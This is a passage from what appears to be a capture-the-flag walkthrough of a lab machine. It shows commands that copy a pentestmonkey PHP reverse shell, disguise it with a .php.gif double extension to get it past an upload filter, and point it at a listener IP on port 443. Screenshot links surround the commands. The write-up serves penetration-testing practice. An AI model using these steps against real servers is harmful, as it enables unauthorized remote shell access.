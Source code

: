 ![](/assets/images/tommyboy/screenshot-23.png)

**Getting a reverse shell**

I used a reverse shell php from pentestmonkey, changed the ip address for the ours and the port, then I uploaded it.

```bash
root@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php z.php.gif
root@kali:~$ sed -i 's/127.0.0.1/192.168.179.1/;s/1234/443/' z.php.gif
```
![](/assets/images/tommyboy/screenshot-24.png)

![](/assets/images/tommyboy/screenshot-25.png)
